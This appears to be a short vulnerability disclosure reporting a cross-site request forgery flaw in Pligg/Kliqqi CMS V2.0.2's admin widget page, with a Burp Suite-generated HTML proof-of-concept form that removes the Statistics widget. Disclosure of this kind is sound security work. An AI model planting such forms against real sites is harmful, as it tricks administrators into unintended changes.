 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_widgets.php?action=remove&widget=Statistics

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_widgets.php?action=remove&widget=Statistics" method="POST">
      <input type="hidden" name="action" value="remove" />
<input type="hidden" name="widget" value="Statistics" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

